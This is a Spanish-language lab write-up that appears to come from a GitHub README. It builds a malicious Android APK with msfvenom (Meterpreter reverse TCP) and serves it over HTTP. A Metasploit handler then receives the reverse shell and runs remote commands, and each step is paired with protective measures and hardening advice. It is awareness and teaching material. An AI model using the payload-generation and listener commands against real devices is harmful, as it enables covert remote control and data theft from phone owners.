





# Creación de APK Malicioso para Android y Medidas de Protección

## 📖 Introducción

Este laboratorio demuestra la creación y ejecución de una aplicación Android maliciosa en un **entorno controlado**, con el objetivo de concienciar sobre los riesgos de seguridad en dispositivos móviles y mostrar tanto técnicas ofensivas como defensivas.

**⚠️ AVISO LEGAL**: Este proyecto se realizó exclusivamente en un entorno controlado con fines educativos. El uso de estas técnicas sin autorización explícita es ilegal.

## 📑 Índice

1. [Creación del APK Malicioso](#1-creación-del-apk-malicioso)
2. [Servidor de Distribución](#2-servidor-de-distribución)
3. [Análisis de Seguridad del Dispositivo](#3-análisis-de-seguridad-del-dispositivo)
4. [Establecimiento de la Conexión](#4-establecimiento-de-la-conexión)
5. [Ejecución de Comandos Remotos](#5-ejecución-de-comandos-remotos)
6. [Medidas de Protección](#6-medidas-de-protección)

---

## 1. Creación del APK Malicioso

Para esta fase se utilizó **Msfvenom**, una herramienta incluida en Metasploit Framework, para generar el payload malicioso.

### Comando Ejecutado:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP_OCULTA] LPORT=[PUERTO_OCULTO] > virus.apk
```



**Características del Payload:**
- **Plataforma**: Android
- **Arquitectura**: Dalvik
- **Tipo**: Meterpreter reverse TCP
- **Tamaño**: 10238 bytes

### 🛡️ Medida de Protección #1:
- **Verificar aplicaciones**: Solo descargar apps de tiendas oficiales (Google Play Store)
- **Análisis estático**: Usar herramientas como `apktool` para descompilar y analizar APKs sospechosos
- **Firmas digitales**: Verificar que las aplicaciones estén firmadas correctamente

---

## 2. Servidor de Distribución

Se configuró un servidor HTTP simple en Python para distribuir el APK malicioso.

### Comando del Servidor:
```bash
python3 -m http.server 80
```



**Actividad del Servidor:**
- Servicio en puerto 80
- Múltiples solicitudes GET desde el dispositivo objetivo
- Descarga exitosa del archivo `virus.apk`

### 🛡️ Medida de Protección #2:
- **Firewall de red**: Bloquear puertos innecesarios
- **HTTPS obligatorio**: Evitar descargas sobre HTTP
- **Filtrado de contenido**: Usar soluciones de seguridad web
- **Bloquear descargas de fuentes desconocidas**: Configurar el dispositivo para impedir instalaciones no verificadas

---

## 3. Análisis de Seguridad del Dispositivo

El análisis de seguridad integrado del dispositivo **NO detectó** la aplicación como maliciosa, demostrando una brecha en los sistemas de protección.



**Resultados del Análisis:**
- ✅ "Pasó las pruebas de seguridad"
- ✅ "No se detectaron riesgos"
- ✅ "No se encontraron virus"
- ✅ "La aplicación es legítima"

### 🛡️ Medida de Protección #3:
- **Antivirus de terceros**: Instalar soluciones de seguridad reconocidas
- **Análisis heurístico**: Habilitar detección basada en comportamiento
- **Actualizaciones**: Mantener el sistema y aplicaciones de seguridad actualizadas
- **Google Play Protect**: Asegurarse de que está activado y funcionando

---

## 4. Establecimiento de la Conexión

Configuración del listener en Metasploit para recibir la conexión reversa del dispositivo comprometido.



**Configuración del Handler:**
```bash
use multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST [IP_OCULTA]
set LPORT [PUERTO_OCULTO]
run
```

**Estadísticas de Conexión:**
- Múltiples sesiones de Meterpreter establecidas
- Transferencia de stages exitosa
- Conexiones desde diferentes puertos del dispositivo

### 🛡️ Medida de Protección #4:
- **Segmentación de red**: Aislar dispositivos en VLANs separadas
- **Detección de anomalías**: Monitorear conexiones salientes inusuales
- **IPS/IDS**: Implementar sistemas de prevención/detección de intrusos
- **Firewall personal**: Usar aplicaciones de firewall en el dispositivo móvil

---

## 5. Ejecución de Comandos Remotos

Una vez establecida la conexión, se obtuvo acceso completo al dispositivo, permitiendo la ejecución de comandos.



**Información del Sistema Obtenida:**
- **Sistema Operativo**: Android 13
- **Arquitectura**: aarch64
- **Kernel**: Linux 4.14.190-perf
- **Idioma**: Español (es_ES)

**Comandos Ejecutados:**
- `sysinfo` - Información del sistema
- `shell` - Acceso a terminal
- `ls` - Listado de directorios
- `pwd` - Directorio actual
- `ps` - Procesos en ejecución

### 🛡️ Medida de Protección #5:
- **Permisos mínimos**: Restringir permisos de aplicaciones
- **Sandboxing**: Aislar ejecución de aplicaciones
- **Monitorización**: Auditar procesos y actividades del sistema
- **Root/desbloqueo**: Evitar el root del dispositivo para mantener las protecciones del sistema

---

## 6. Medidas de Protección Completas

### 🔒 Hardening de Dispositivos Android:

1. **Configuración de Seguridad:**
   - Habilitar verificación de aplicaciones
   - Desactivar fuentes desconocidas
   - Actualizar regularmente el sistema
   - Usar bloqueo de pantalla seguro

2. **Protección de Red:**
   - Usar VPN para tráfico sensible
   - Configurar firewall de dispositivo
   - Evitar redes WiFi públicas
   - Desactivar Bluetooth cuando no se use

3. **Concienciación del Usuario:**
   - Verificar permisos de aplicaciones
   - Descargar solo de tiendas oficiales
   - Revisar análisis de seguridad
   - Desconfiar de aplicaciones que piden permisos excesivos

4. **Herramientas Recomendadas:**
   - Antivirus móvil
   - Gestores de permisos
   - Aplicaciones de detección de root
   - Scanner de malware

### 🛠️ Herramientas Defensivas:

- **MobSF (Mobile Security Framework)**: Análisis estático de APKs
- **QARK**: Detección de vulnerabilidades
- **Drozer**: Testing de seguridad para Android
- **Frida**: Análisis dinámico de aplicaciones
- **APKTool**: Para descompilar y analizar aplicaciones

---

## 📊 Conclusiones

Este laboratorio demuestra que:

1. **Los antivirus nativos pueden ser evadidos** por malware especializado
2. **La ingeniería social** es crucial en la distribución de malware
3. **El bastionado proactivo** es esencial para la seguridad móvil
4. **La educación del usuario** es la primera línea de defensa
5. **La defensa en profundidad** es necesaria para proteger dispositivos móviles

## 🔗 Recursos Adicionales

- [OWASP Mobile Security Testing Guide](https://owasp.org/www-project-mobile-security-testing-guide/)
- [Android Security Bulletins](https://source.android.com/security/bulletin)
- [MITRE ATT&CK Mobile Matrix](https://attack.mitre.org/matrices/enterprise/mobile/)
- [Google Android Security Center](https://www.android.com/security-center/)

---

**📝 Nota**: Este laboratorio se realizó en un entorno completamente aislado y controlado con el único propósito de investigación y educación en ciberseguridad.
